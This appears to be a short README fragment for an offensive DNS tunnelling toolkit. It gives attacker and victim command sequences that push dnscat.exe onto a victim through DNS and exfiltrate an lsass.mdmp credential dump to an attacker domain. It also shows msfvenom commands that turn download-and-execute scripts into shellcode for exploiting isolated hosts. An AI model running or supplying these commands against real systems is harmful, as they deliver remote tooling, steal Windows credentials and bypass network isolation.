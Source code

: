 Correct `yourzone.tk`.

### infiltration
Change loops count in `dns_download.vbs` before running.
```
attacker> sudo ./dns_upload.py --udp --file dnscat.exe
victim> cscript.exe dns_download.vbs
victim> ./dns_download.sh attacker.tk 1190 /tmp/dnscat
```

### exfiltration
```
attacker> sudo ./dns_download.py --udp --file lsass.mdmp
victim> cscript.exe dns_upload.vbs c:\path\to\lsass.mdmp attacker.tk
```

### dns-shellcode
It can be used as dns-shellcode alternative for exploiting isolated hosts:
```
msfvenom -p windows/exec CMD=$(cat dns_download_exec.bat) -f raw -o dns_shellcode
msfvenom -p linux/x86/exec CMD=$(cat dns_download_exec.sh) -f raw -o dns_shellcode
```
